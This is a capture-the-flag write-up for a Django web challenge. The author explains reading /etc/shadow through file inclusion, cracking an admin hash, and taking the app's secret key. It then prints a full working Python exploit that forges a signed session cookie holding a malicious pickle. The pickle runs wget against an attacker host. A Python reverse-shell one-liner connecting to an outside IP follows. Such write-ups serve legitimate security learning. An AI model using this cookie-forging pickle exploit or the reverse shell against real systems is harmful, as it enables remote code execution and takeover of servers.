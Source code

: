# Emojibook 2

We try to read the flag at the usual location using the same exploit
as in emojibook 1, but fail with a 500 error. Reading
/etc/shadow however works. And we see there's an admin user
and a hash, so hashcat go brrr and gives us the password 999999
after a few seconds of running. So the user is just there
to restrict the web user to read the flag file (But we can
read the shadow file lmao).

And then we read a few more files, got our fingers on the 
secret key to encrypt cookies and saw that pickle was
enabled...

So let's just do a remote code execution using pickle:

```py
import os
import socket
import base64
import subprocess

from django.core.signing import TimestampSigner, b64_encode
from django.utils.encoding import force_bytes
import requests
import random, string

try:
   import cPickle as pickle
except:
   import pickle


SECRET_KEY = 'wr`BQcZHs4~}EyU(m]`F_SL^BjnkH7"(S3xv,{sp)Xaqg?2pj2=hFCgN"CR"UPn4'

def rotten_cookie(payload):
  key = force_bytes(SECRET_KEY)
  salt = 'django.contrib.sessions.backends.signed_cookies'
  base64d = base64.b64encode(payload).decode()
  return TimestampSigner(key, salt=salt).sign(base64d)

class Shell_code(object):
    def __reduce__(self):
        return (os.system,('/usr/bin/wget <your_ip/reqbin_here>',))

pickled_obj= pickle.dumps(Shell_code())
cookie = rotten_cookie(pickled_obj)
print(cookie)
requests.get('http://193.57.159.27:42585/admin/', cookies=dict(sessionid=cookie))
```

and then a reverse shell using python:

`return (os.system,('/usr/bin/python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("84.72.193.30",1236));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'',))`

(Thanks to my teammate spawning the shell on my server :P)

Now just enter password, read flag, profit

`ractf{dj4ng0_lfi_rce_not_unintended}`
